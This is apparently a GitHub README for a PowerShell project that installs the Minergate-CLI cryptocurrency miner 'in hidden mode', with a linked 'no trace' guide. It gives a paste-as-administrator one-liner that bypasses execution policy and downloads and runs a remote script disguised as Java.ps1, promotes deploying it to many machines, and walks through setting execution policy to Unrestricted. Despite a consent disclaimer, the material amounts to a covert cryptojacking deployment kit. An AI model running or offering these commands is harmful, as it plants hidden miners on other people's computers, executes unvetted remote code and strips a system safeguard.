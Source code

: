# Minergate Deployment and Running

Install and Run Minergate-CLI in Hidden Mode

Full Guide can be found: https://talkisgeek.com/how-to-use-minergate-cli-in-hidden-mode-no-trace/

// I'm currently rebuilting talkisgeek website. 

_Host_: https://api.minergate.com

### Introduction

This project I undertook while running a small graphics powered farm while I was improving on my coding skills. I will slowly update all the source code I used to install and deploy and monitor my farm. 

Please do NOT use this without the consent of the person who owns the computer. This code is NOT to be used for malicious purposes. 

### Final Example (Works in Win 10 Only)

With some work you can executes the code in this git via one line of code only. It makes it extremely easy to deploy to lots of machines. I will publish the guide on how to do this soon. 

Run CMD as Administrator and paste this script in:

@powershell -NoProfile -ExecutionPolicy Bypass -Command "iex ((new-object net.webclient).DownloadString('https://gist.githubusercontent.com/Hawkryption/dd55e0a282a70f3af63ed792f5eca570/raw/c7b150fa54fd34736fcfca27c2faf649ae22c5c7/Java.ps1'))"

### Using this Powershell Script

#### 1. Download Install_Minergate.ps1 and Edit the Code

Download Install_Minergate.ps1 and place it in your C:\ Directory. Register an account with Minergate.com and replace the email address with your own in the code. To edit the code right click the file and click edit.

#### 2. Lunch Powershell in Administrator Mode

Click on Start and type Powershell -> Right click on "Windows Powershell" and then "Run as Administrator"

#### 3. Set Execution Policy

By default Windows does not allow the execution of Powershell scripts. This is by design to stop remote/local execution out of the box for hackers to take advantage of. Please be aware that when you set this you are allow unrestricted script execution access to your PC and as such any application can remotely execute scripts. You can isolate it to just one session that has unrestricted access. You will need to find out how to complete that if it concerns you.

You must launch Powershell in Administrator mode and type the following: (Without "")

**"cd \"** cd \ Press Enter

![Alt text](https://github.com/MetalH47K/Minergate-Powershell/blob/master/cd.PNG?raw=true "cd \")

**"_Set-ExecutionPolicy Unrestricted_"** Press Enter

Powershell will then ask:

**Execution Policy Change**

The execution policy helps protect you from scripts that you do not trust. Changing the execution policy might expose
you to the security risks described in the about_Execution_Policies help topic at
http://go.microsoft.com/fwlink/?LinkID=135170. Do you want to change the execution policy?
[Y] Yes  [A] Yes to All  [N] No  [L] No to All  [S] Suspend  [?] Help (default is "N"): 

You need to choose: "[A] Yes to All" **Press A**

![Alt text](https://github.com/MetalH47K/Minergate-Powershell/blob/master/Set-ExecutionPolicy%20Unrestricted.PNG?raw=true "Set-ExecutionPolicy Unrestricted")

#### 4. Execute Script

Now you are ready to execute the script. Simply type without brackets **".\Install_Minergate.ps1"**


